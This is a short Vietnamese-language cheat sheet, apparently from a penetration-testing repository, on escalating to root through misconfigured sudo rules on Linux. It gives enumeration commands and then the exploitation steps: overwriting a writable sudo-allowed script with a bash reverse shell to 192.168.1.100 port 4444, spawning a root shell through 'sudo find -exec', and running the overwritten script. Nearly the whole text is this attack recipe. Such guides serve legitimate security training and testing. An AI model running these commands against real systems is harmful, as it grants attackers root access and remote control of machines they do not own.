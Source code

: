 # Sudo Permission

## Điểm chính khai thác

* Tận dụng các lệnh sudo được cấu hình không đúng hoặc tập lệnh được phép chạy với quyền root để thực thi mã hoặc mở shell với quyền quản trị.
* Người dùng có thể chạy lệnh sudo hoặc tập lệnh tham chiếu được cấu hình trong /etc/sudoers hoặc /etc/sudoers.d/, cho phép thực thi mã độc hoặc nâng quyền.
* Sử dụng các công cụ như sudo -l để liệt kê các lệnh sudo được phép, hoặc các công cụ như GTFOBins để tìm cách khai thác các lệnh cụ thể.

## Các bước khai thác

### Kiểm tra lỗ hổng

Kiểm tra lệnh sudo user được phép sử dụng:

```
sudo -l
```

Kiểm tra quyền truy cập tập lệnh/thư mục:

```
find / -writable -type f 2>/dev/null
```

### Thực thi khai thác

Ghi đè tập lệnh có thể ghi:

```
echo '/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' > <sudo_file>
```

Khai thác lệnh sudo dễ bị tấn công:

```bash
sudo find / -exec /bin/sh \;
```

Kích hoạt tập lệnh đã ghi đè:

```bash
sudo <sudo_file>
```
